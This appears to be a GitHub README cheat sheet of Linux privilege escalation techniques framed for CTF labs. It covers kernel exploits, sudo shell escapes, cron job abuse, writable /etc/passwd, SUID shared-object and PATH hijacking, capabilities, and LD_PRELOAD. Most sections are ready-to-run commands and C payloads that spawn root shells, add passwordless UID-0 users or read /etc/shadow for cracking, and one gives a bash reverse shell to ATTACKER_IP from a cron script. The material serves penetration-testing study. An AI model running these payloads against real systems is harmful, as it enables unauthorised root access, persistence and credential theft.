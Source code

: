 ### ***Linux Privilege Escalation Examples***

<details>
<summary>Kernel Exploits</summary>
 <br> 
Step 1: Identify & Search for Exploits
The first step is to identify potential exploits for the target system. You can use Searchsploit to find known vulnerabilities for the specific kernel version.
    
    cat /proc/version
    uname -a #will print the Kernel Version
    searchsploit linux 3.13.0-24
This will list exploits relevant to the kernel version. In this case, the target kernel version is 3.13.0-24.

To extract all the vulnerable kernel versions from that web you can do:

    curl https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/README.md 2>/dev/null | grep "Kernels: " | cut -d ":" -f 2 | cut -d "<" -f 1 | tr -d "," | tr ' ' '\n' | grep -v "^\d\.\d$" | sort -u -r | tr '\n' ' '
![image](https://github.com/user-attachments/assets/5629083f-a755-4c84-be78-db0c17a3e6fe)

Tools that could help searching for kernel exploits are:

[suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
[suggester2](https://github.com/jondonas/linux-exploit-suggester-2)
[linuxprivchecker](http://www.securitysift.com/download/linuxprivchecker.py)

Always search the kernel version in Google, maybe your kernel version is wrote in some kernel exploit and then you will be sure that this exploit is valid.

Step 2: Locate the Exploit
Once you’ve identified a suitable exploit, use the locate command to find its full path and inspect the code.

    locate linux/local/37292.c
    cat /usr/share/exploitdb/exploits/linux/local/37292.c
This shows the contents of the exploit file, which you'll need to compile and execute.
![image](https://github.com/user-attachments/assets/3647680d-156d-453a-9f3b-8adb43c9396f)

Step 3: Check for Compiler and Permissions
Before proceeding with the exploit, ensure the necessary tools and permissions are available on the target system.

Check for GCC: Ensure that the GCC compiler is installed.

    which gcc
Check File Permissions: Verify that you have write permissions to the directory where you’ll save the exploit.

    ls -la
 ![image](https://github.com/user-attachments/assets/22116cd7-9f80-4db0-b85c-2120955a17bc)

Step 4: Copy and Rename the Exploit
Next, copy the exploit code to your Downloads folder and rename it to something like ofs.c.

    sudo cp /usr/share/exploitdb/exploits/linux/local/37292.c /home/kali/Downloads/
    mv 37292.c ofs.c
![image](https://github.com/user-attachments/assets/28fa1d5a-7532-42b9-bd10-1cfbabc9bcfa)

Step 5: Set Up an HTTP Server to Serve the Payload
On your attacker machine, start an HTTP server to serve the payload file (ofs.c) to the victim machine.

    updog -p 80
On the victim machine, use wget to download the exploit:

    wget http://10.6.42.239/ofs.c
![image](https://github.com/user-attachments/assets/b8dc99c8-d633-4f6c-a42c-8273b7f7e63f)

Step 6: Compile the Exploit
Now that the exploit is on the victim’s machine, compile the C code to create the binary that will escalate privileges.

    gcc ofs.c -o ofs
    ./ofs
Step 7: Verify Root Access
Once the exploit runs successfully, you should have root privileges. Verify by checking your user ID with whoami.

    whoami
You should see root, indicating that you’ve escalated to root privileges.
![image](https://github.com/user-attachments/assets/7729b24c-ccb3-49b2-af83-32e608213bcd)

Step 8: Locate the Flag
As a final step, search for the flag file on the system. You can use the following commands to locate and read the flag:

    find / -name flag1.txt 2>/dev/null
    cat /home/matt/flag1.txt
![image](https://github.com/user-attachments/assets/6fd0400a-4cff-4a01-a06d-1640757f4df3)

Summary
Privilege Escalation: This technique involves using kernel exploits to escalate user privileges.

Exploit Search: Use tools like Searchsploit to find relevant vulnerabilities for your target system.

Payload Delivery: Serve the payload using an HTTP server and download it on the target machine.

Compilation and Execution: Compile the C code and run it to gain root access.

Find and Read Flag: After gaining root privileges, locate the flag file to complete the task.


</details>

<details>
<summary>SUDO</summary>
 <br> 

Shell Escape Sequences
----------------------
Check Current Sudo Privileges
To check your current permissions related to sudo, you can use the following command:

    $ sudo -l
This will list the commands a user is allowed to run with sudo privileges. Based on this, an attacker may find a vulnerability to escalate privileges.
If a user has the ability to execute a command with sudo but doesn't have access to everything, we can search for payloads to leverage this.
search for payloads in https://gtfobins.github.io/

Exploit with Sudo
Assuming you can execute find with sudo, you can use the following command to spawn a shell with root privileges:

    sudo find . -exec /bin/sh \; -quit
![image](https://github.com/user-attachments/assets/1d174aff-f610-476e-bb4e-bb3d723280f9)

This command forces find to run a shell (/bin/sh) as root by using sudo. The -quit flag ensures that the find command stops executing immediately after spawning the shell.

Find Common Exploitable Binaries
Some binaries may be configured to allow root access when used with sudo. For example:

nano:
/usr/bin/nano is often a text editor installed on many Linux systems. If a user can run nano with root privileges, they can edit sensitive files, such as /etc/passwd.
![image](https://github.com/user-attachments/assets/e9e7c340-4896-4fe7-afec-00e1eb021b86)


less:
Similarly, less is a pager program, often used to view files. If improperly configured, it may allow privilege escalation:
![image](https://github.com/user-attachments/assets/ab8e392c-17f0-4c1e-be1d-61092cd8d27f)

Find the Flag
After successfully escalating privileges, you can search the system for the flag (or other sensitive files):

    find / -name flag.txt 2>/dev/null
Here, we look for a file called flag.txt and suppress any error messages.
![image](https://github.com/user-attachments/assets/d8883e72-a1a1-4fb4-bd40-dc2c3c781e46)

Find the Hash of Frank's Password
If the password file has been compromised or altered, you can often find hashes of user passwords, including Frank’s password:

      cat /etc/shadow | grep frank
Once you find the hash, you can try cracking it using tools like John the Ripper or Hashcat.
![image](https://github.com/user-attachments/assets/4ba1ec66-b320-40c7-8b8d-0d2d5fe25a1e)


Overwriting Files (Risky)

Warning: This command will overwrite important system files like /etc/passwd — don’t use this in production systems! This is useful only for Capture the Flag (CTF) scenarios or safe environments.

Here’s how you can potentially overwrite the /etc/passwd file to give yourself root access:
*** THIS WILL OVERWRITE THE PASSWD FILE, NOT A GOOD PRACTICE FOR CTF ***

    LFILE=/etc/passwd
    DATA='siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash\n'
    sudo find / -maxdepth 0 -fprintf "$LFILE" "$DATA"
Explanation:

This command creates a new user called siren in the /etc/passwd file with root privileges by adding a new line. could allow you to access the system as the siren user with root access. However, remember that overwriting critical system files can be dangerous.

Sudo version
Based on the vulnerable sudo versions that appear in:

    searchsploit sudo
You can check if the sudo version is vulnerable using this grep.

    sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"

---
Abusing Intended Functionality
------------------------------


    $ sudo apache2 -f /etc/shadow
    Syntax error on line 1 of /etc/shadow:
    Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
---
Summary:

sudo Privileges: If a user has sudo access to certain commands (like find, nano, or less), they might be able to escalate their privileges.

Exploit via sudo: Using sudo find . -exec /bin/sh \; or exploiting misconfigurations with common binaries, an attacker could gain root access.

Overwriting Critical Files: Be cautious when overwriting system files like /etc/passwd — it’s risky but useful for CTFs.

Finding the Flag: Once you have root access, locate the flag and/or crack password hashes from /etc/shadow.
</details>

<details>
<summary>CORN JOB</summary>
 <br> 

Path
----
Cron jobs are scheduled tasks that run scripts or binaries at specified times. By default, they execute with the privileges of their owner, not the user who triggers them. If a cron job is owned by root but writable by an unprivileged user, that user can inject code to run as root.

1. Understand Where Cron Jobs Live
System-wide crontab:
/etc/crontab — defines global scheduled tasks.

Per-user crontabs:
/var/spool/cron/crontabs/<username> — only editable by the respective user.

Cron directories (/etc/cron.hourly, /etc/cron.daily, etc.)

If PATH variable defined inside a crontab, and one of the paths is writable, and the cron job doesn't refer to an absolute path, we can exploit.


    $ cat /etc/crontab
    SHELL=/bin/sh
    PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    * * * * * root backup.sh
   ![image](https://github.com/user-attachments/assets/d30b6e0d-abcc-46ad-9898-cdc241acff03)


In the example above, /home/karen is in the PATH and our user can write to it.

Confirm What’s Running and When
You can observe cron in action using a tool like pspy on the target:

# Transfer and run pspy to monitor cron executions

    ./pspy64
You’ll see lines like:

[CRON] running /usr/local/bin/backup.sh

Inject Your Payload:

Create a /home/karen/backup.sh script which makes a SUID/SGID bit version of bash:
Since you have write access, append a reverse-shell or any root-shell payload:

Edit the script:

    nano /usr/local/bin/backup.sh
Append, for example, a simple bash reverse shell:

    # …existing backup commands…
    bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
Save and exit.
Check and make the script executable:

    $ chmod +x /home/karen/backup.sh

Now wait for the cron job to execute. When it does,Start a listener on your attacker machine:


    $ nc -lvnp 4444
    #
Wait up to one minute for cron to run the modified script.

You’ll receive a root shell connection.

Wildcards
---------

If the cron job script contains bash wildcards that reference files, and we can create files in the relevant directory, it may be possible to create files with filenames that can be used as command line flags.


    $ cat /etc/crontab
    ...
    * * * * * root /usr/local/bin/compress.sh


    $ cat /usr/local/bin/compress.sh
    #!/bin/sh
    cd /home/user
    tar czf /tmp/backup.tar.gz *

The tar executable has a checkpoint feature which displays progress messages every specific number of records. It also allows users to define an action that is executed during the checkpoint.

Create a script (runme.sh) which makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Make the script executable:


    $ chmod +x runme.sh

Create two files in the directory that the tar command is run in, with the filename set to the full command line options:


    touch /home/user/--checkpoint=1
    touch /home/user/--checkpoint-action=exec=sh\ runme.sh

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #

File Overwrite
--------------

If a cron job script is writable, we can modify it and run commands as root:


    $ cat /etc/crontab
    ...
    * * * * * root overwrite.sh


    $ locate overwrite.sh
    /usr/local/bin/overwrite.sh
    $ ls -l /usr/local/bin/overwrite.sh
    -rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh

The /usr/local/bin/overwrite.sh file is world-writable.

Overwrite the /usr/local/bin/overwrite.sh script with one that makes a SUID/SGID bit version of bash:


    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:


    $ /tmp/rootbash -p
    #
</details>

<details>
<summary>File Permissions</summary>
 <br> 

Writable /etc/passwd Privilege Escalation

The /etc/passwd file on Unix-like systems contains essential information about user accounts, including the username, UID, GID, home directory, and default shell. If this file is writable by an unprivileged user, it presents a significant security vulnerability.

1. The passwd File Format
Each line in /etc/passwd represents a user account in the following format:

       username:password:UID:GID:GECOS:home_dir:shell

Exploiting a Writable /etc/passwd
If an attacker can modify /etc/passwd and add an entry for a new user with UID 0 (the root user ID), they can gain root access without needing a password.

Steps to Add a New Root User
Check if /etc/passwd is writable: Verify if you have write access to /etc/passwd:

    ls -l /etc/passwd
If you have write permissions, proceed.

Add a new root user: Use echo to append a new user to /etc/passwd with UID 0 (root user). This will make the new user a root user with no password.

    echo newroot::0:0:root:/root:/bin/bash >> /etc/passwd
Explanation:

newroot is the username of the new account.

:: indicates no password.

0:0 are the UID and GID for root.

/root is the home directory (root's home).

/bin/bash is the default shell for this new user.

Switch to the new root user: Use su (switch user) to change to the newroot account:

    su newroot
You now have root privileges: After switching, you will have a root shell:

    # whoami
      root
Important Notes
No Password Needed: Since the new account has no password, the system won't prompt for one, and you can immediately log in as the new root user.

Permanent Access: The new root user will persist across reboots until /etc/passwd is modified again. This makes this method highly effective for establishing persistent root access.

</details>

<details>
<summary>SUID Binaries</summary>
 <br> 
Shared Object Injection: Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.
^^^^^^^^^^^^^^^^^^^^^^^

Shared Objects (.so) are the \*nix equivalent of Windows DLLs. If a program references a shared object that we can write to (even if it doesn't exist) we can run commands with the user context of the application.

Find SUID/SGID binaries:

    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    or
    find / -type f -perm -04000 -ls 2>/dev/null
    or
    find / -perm -u=s -type f 2>/dev/null
    
These commands search the system for files with the SUID (04000) or SGID (02000) bits set and list them. Files with these special permission bits could potentially allow privilege escalation.

 ![image](https://github.com/user-attachments/assets/8886aea9-5c2f-47cf-adb5-361f174fde67)

A good practice would be to compare executables on this list with GTFOBins. Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a [pre-filtered list](https://gtfobins.github.io/#+suid).

Base64 configured with the SUID bit, can be leveraged for privilege escalation.
Decoding Base64-Encoded Files
You can sometimes encounter base64-encoded files like /etc/shadow or /etc/passwd, which contain encrypted or sensitive data. To decode these files, use the following commands:

Example for /etc/shadow:

    LFILE=/etc/shadow
    base64 "$LFILE" | base64 --decode
This will decode the base64-encoded contents of /etc/shadow.
![image](https://github.com/user-attachments/assets/a520482d-fa30-4ac5-876e-17b2c3c13bc7)

Example for /etc/passwd:

    LFILE=/etc/passwd
    base64 "$LFILE" | base64 --decode
This will decode the base64-encoded contents of /etc/passwd.

Cracking Password Hashes
After you have decoded sensitive files like /etc/shadow or /etc/passwd, you can extract password hashes and attempt to crack them.

Cracking /etc/shadow and /etc/passwd
Decode both files and copy them to your system. Then, run the following commands to prepare for password cracking:

    unshadow user2pass user2 > passwd.txt  # user2pass = /etc/passwd, user2 = /etc/shadow

Use John the Ripper to crack the password hashes with a wordlist:

    sudo john --wordlist=/usr/share/wordlists/rockyou.txt passwd.txt
This will attempt to crack the password hashes using the rockyou.txt wordlist.
![image](https://github.com/user-attachments/assets/fcef5969-8533-4831-818a-946f88f12ed3)

Directly flag can be achived using base64 ablites: 
Example for a specific file (e.g., flag3.txt):

      LFILE=home/ubuntu/flag3.txt
      base64 "$LFILE" | base64 --decode
This command decodes the contents of flag3.txt.
![image](https://github.com/user-attachments/assets/cc23f201-dde6-4043-9ac5-9580c5648988)

Use strace to find references to shared objects:

    $ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
    access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
    open("/etc/ld.so.cache", O_RDONLY)      = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libdl.so.2", O_RDONLY)       = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libm.so.6", O_RDONLY)        = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libc.so.6", O_RDONLY)        = 3
    open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)

The shared object /home/user/.config/libcalc.so is referenced, but it doesn't exist. Luckily it is in a writable directory.

Create a C program (libcalc.c) and compile it to a shared object:


    #include <stdio.h>
    #include <stdlib.h>

    static void inject() __attribute__((constructor));
    void inject() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    $ gcc -shared -fPIC -o libcalc.so libcalc.c

Move the libcalc.so shared object to the path referenced by the SUID binary:


    $ mkdir -p /home/user/.config
    $ cp libcalc.so /home/user/.config/libcalc.so

Now run the SUID binary, it should give you a root shell immediately:


    $ suid-so
    Calculating something, please wait...
    root@debian:~# 

Symlink
^^^^^^^

TODO

Environment Variables - Relative Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:


    $ strings /usr/local/bin/suid-env
    /lib64/ld-linux-x86-64.so.2
    5q;Xq
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    service apache2 start

The "service" command doesn't have an absolute path. When it is called, \*nix will try to find it by traversing the PATH environment variable. We can modify the PATH variable and create a malicious version of the service binary which will spawn a root shell when it is run.

First create a C program (service.c):


    int main() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }

Compile it to our malicious binary:


    $ gcc -o /tmp/service service.c

Add /tmp to the start of the PATH environment variable and export it:


    $ export PATH=/tmp:$PATH

Now run the original SUID/SGID binary. A root shell should spawn:


    $ /usr/local/bin/suid-env
    #

Environment Variables - Absolute Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:


    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:


    $ strings /usr/local/bin/suid-env2
    /lib64/ld-linux-x86-64.so.2
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    /usr/sbin/service apache2 start

The /usr/sbin/service command seems to be interesting, however it has an absolute path and cannot be edited.

Some versions of Bash (<4.2-048) and Dash let you define functions with the same name as an absolute path. These then take precedent above the actual executable themselves.

Define a bash function "/usr/sbin/service" that creates an SUID/SGID version of bash:


    $ function /usr/sbin/service() { cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p;}

Export the new function:


    $ export -f /usr/sbin/service

Now run the original SUID/SGID binary. A root shell should spawn:


    $ /usr/local/bin/suid-env2
    #

Bash also supports a script debugging mode, and uses the PS4 environment variable to define a prompt for the debugging mode.

We can get an instance root shell:


    env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash && chown root:root /tmp/rootbash && chmod +s /tmp/rootbash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/rootbash -p'
</details>
<details>
<summary>Capabilities</summary>
 <br> 
 What Are Capabilities?
In Unix-like systems, capabilities are used to provide more granular control over the privileges of processes or binaries, rather than granting full root access. This method allows administrators to assign specific privileges to processes that would typically require higher-level permissions.

For example:

A SOC analyst might need to run a tool that initiates socket connections, but they don't require full root access. By using capabilities, the administrator can grant just the necessary permission to that specific tool, rather than giving the analyst root privileges.

How Capabilities Work
Instead of giving a program full root privileges, a system administrator can set specific capabilities on a binary to allow it to perform certain actions that would otherwise require elevated privileges. For instance, a binary might be given the capability to bind to privileged ports or set user IDs without granting the user full root access.

You can check which capabilities are assigned to a binary or process using the getcap tool.

Checking Capabilities on a System
To list all the binaries with specific capabilities set on your system, use the following command:

getcap -r / 2>/dev/null
This command recursively checks all files starting from the root directory and lists those with capabilities set. The output might look something like this:

/usr/bin/vim = cap_setuid+ep
This means that the vim binary has the cap_setuid capability, which allows it to change its user ID (UID) to any value, including root (UID 0).

Example of Exploiting Capabilities for Privilege Escalation
Let's say the vim binary has been granted the cap_setuid capability. This capability allows vim to change the user ID of the current process. If we can use this capability to set the user ID to 0 (root), we can effectively escalate our privileges.

Check the Capabilities: We use the getcap tool to see that vim has the cap_setuid capability set.

getcap /usr/bin/vim
Output might be:

/usr/bin/vim = cap_setuid+ep
Escalate to Root Using vim: With the cap_setuid capability, we can craft a command that uses vim to escalate to root. The following command utilizes Python scripting inside vim to change the user ID to 0 (root) and then spawn a root shell:

./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
Breakdown of the Command:
:py3 import os: This imports the Python os module within vim.

os.setuid(0): This changes the user ID of the current process to 0, which is the root user.

os.execl("/bin/sh", "sh", "-c", "reset; exec sh"): This replaces the current process (which is vim) with a new shell (/bin/sh), and it spawns a root shell.

Result:
This command will execute the Python code inside vim, which changes the user ID to 0 (root) and opens a shell with root privileges. The result is a root shell.

After executing this, running whoami will show:

# whoami
root
You now have root access without needing to log in as the root user.

Conclusion
Capabilities offer a more granular control over process privileges by allowing specific permissions, such as changing user IDs or binding to privileged ports, to be granted to a binary.

If a binary like vim is configured with the cap_setuid capability, it can change its UID to root and escalate privileges.

Always ensure to audit and manage capabilities carefully to avoid inadvertent privilege escalation opportunities.

This method highlights the importance of reviewing and controlling which capabilities are granted to binaries on your system.
</details>
<details>
<summary>PATH Hijacking</summary>
 <br> 
 What is the PATH Environment Variable?
In Linux, PATH is an environmental variable that tells the operating system where to look for executable files. When you run a command in the shell (such as ls, cat, or any custom script), Linux searches for that command in the directories listed in the PATH variable.

For example:

If a command is not built into the shell or if its absolute path is not specified, Linux will start searching for it in the directories defined under the PATH variable.

The PATH variable typically contains directories like /usr/bin, /bin, /usr/local/bin, etc., where most of the system binaries are stored.

How to Check the PATH?
You can check the current directories in your PATH by running:

echo $PATH
This will show a colon-separated list of directories, like this:

/usr/local/bin:/usr/bin:/bin:/usr/sbin:/sbin:/usr/local/games:/usr/games:/snap/bin
Exploiting Writable Folders in PATH
If a folder listed in PATH has write permissions for your user, you could potentially hijack an application by placing a malicious script or executable in that folder. This could trick the system into running your script instead of the legitimate binary when the application is called.

Writable Folders Search: To identify writable directories in the PATH, you can use the following command:

find / -writable 2>/dev/null | grep usr | cut -d "/" -f 2,3 | sort -u
This will search for writable folders under the /usr directory and display the results. Some of these directories may be part of the PATH and could be hijacked.

Example output might look like this:

/usr/local
/usr/bin
Hijacking a Command: If a writable folder is found in PATH, you can replace a system command with a malicious script. For example, you could create a script named thm in a writable directory like /tmp and hijack the thm command.

Example of Hijacking Using Writable Folders in PATH
Let’s consider the following example:

Check the Current PATH: We can check if /tmp is in the PATH by running:

echo $PATH
If /tmp is not in the PATH, we can add it. This is done using the following command:

export PATH=/tmp:$PATH
This command prepends /tmp to the beginning of the PATH, making it the first directory that the system will search for executables.

Creating a Malicious Script: Next, we can create a malicious executable in /tmp. In this case, we can copy the /bin/bash binary to /tmp and rename it to thm:

cp /bin/bash /tmp/thm
chmod +x /tmp/thm
Hijacking the Application: Now, if the system tries to run the thm command, it will search in /tmp first (because we added it to the PATH). Since we have placed our malicious thm script in /tmp, the system will execute our script instead of the legitimate one.

When the user runs the thm command, the system will execute the bash shell from /tmp, giving the attacker a shell with the same privileges as the user who ran the command.
</details>
<details>
<summary>Startup Scripts</summary>
 <br> 

Startup scripts are stored under /etc/init.d, and are usually run with elevated privileges.

Find world-writable startup scripts:


    $ find /etc/init.d -perm -o+w -type f -exec ls -l {} \; 2>/dev/null
    -rwxr-xrwx 1 root root 801 May 14  2017 /etc/init.d/rc.local

Edit the script and add some code that creates an SUID/SGID bash shell:


    cp /bin/bash /tmp/rootbash
    chown root:root /tmp/rootbash
    chmod +s /tmp/rootbash

Now restart the remote host, and once the host is restarted, spawn a root shell:


    $ /tmp/rootbash -p
    #
</details>
<details>
<summary>Configuration Files</summary>
 <br> 

Configuration files are usually stored in /etc.

Check writable files to see if we can introduce misconfigurations (e.g. if /etc/exports is writable, we can define NFS shares with root squashing turned off).

##########################
Linux Privilege Escalation
##########################

* https://github.com/mubix/post-exploitation
* https://github.com/spencerdodd/kernelpop
* https://github.com/SecWiki/linux-kernel-exploits
* https://www.google.com/search?q=kernel+exploits
* https://github.com/NullArray/RootHelper
* https://greysec.net/showthread.php?tid=1355
* https://github.com/DominicBreuker/pspy
* https://touhidshaikh.com/blog/?p=790
* http://blog.securelayer7.net/abusing-sudo-advance-linux-privilege-escalation/
* https://gtfobins.github.io/
* https://guif.re/linuxeop
* https://github.com/sagishahar/lpeworkshop
* https://github.com/codingo/OSCP-2
* https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/
* https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
* https://docs.ansible.com/ansible/latest/user_guide/become.html
* https://payatu.com/guide-linux-privilege-escalation/
* https://github.com/Arrexel/phpbash
</details>
<details>
<summary>LD_PRELOAD</summary>
 <br> 
Environment variables:

* LD_LIBRARY_PATH - A list of directories in which to search for RLF libraries at execution time.
* LD_PRELOAD - A list of additional, user-specified, ELF shared objects to be loaded before all others.

Sudo has the ability to preserve certain environment variables:


    $ sudo -l
    Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD

Compile a shared object (.so) file:


    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }


    $ gcc -fPIC -shared -nostartfiles -o preload.so preload.c

Set the environment variable as part of the sudo command. The full path to the .so file needs to be used. Your user must be able to run the command via sudo.


    $ sudo LD_PRELOAD=/full/path/tp/preload.so apache2
    #
</details>
<details>
<summary>NFS</summary>
 <br> 

NFS allows a host to share file system resources over a network. Access Control is based on the server's file system, and on the uid/gid provided by the connecting client.

Root squashing maps files owned by root (uid 0) to a different ID (e.g. anonymous or nobody). If the "no_root_squash" option is enabled, files owned by root will not get mapped. This means that as long as you access the NFS share as a root (uid 0) user, you can write to the host file system as root.


    $ cat /etc/exports

